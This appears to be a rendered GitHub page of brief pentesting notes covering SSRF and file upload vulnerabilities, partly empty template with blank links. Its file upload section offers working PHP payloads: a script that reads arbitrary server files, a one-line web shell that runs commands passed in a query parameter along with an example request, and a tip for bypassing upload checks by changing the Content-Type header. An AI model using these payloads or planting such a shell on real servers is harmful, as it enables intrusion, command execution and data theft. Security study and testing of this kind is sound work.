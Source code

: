 ```yaml
---

# Table of Contents

---
```

- []()
  - []()
  - []()
- []()
---
# Title
---

## SSRF

**SSRF - Server-Side Request Forgery is the attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application**



---

## File Upload Vulnerability

**File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.**

### Payloads

Read arbitrary files from the server's filesystem:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
---
Easy oneliner web-shell:
```php
<?php echo system($_GET['command']); ?>
```
This allows you to pass an arbitrary system command via a query parameter as follows:
```
GET /example/exploit.php?command=id HTTP/1.1
```
---

### Security Bypass

1. **MIME Type**. Your browser could check you file type with Content-Type header with different [MIME](https://www.sitepoint.com/mime-types-complete-list/) type value, but if you change it, you also could bypass it

---







--- 

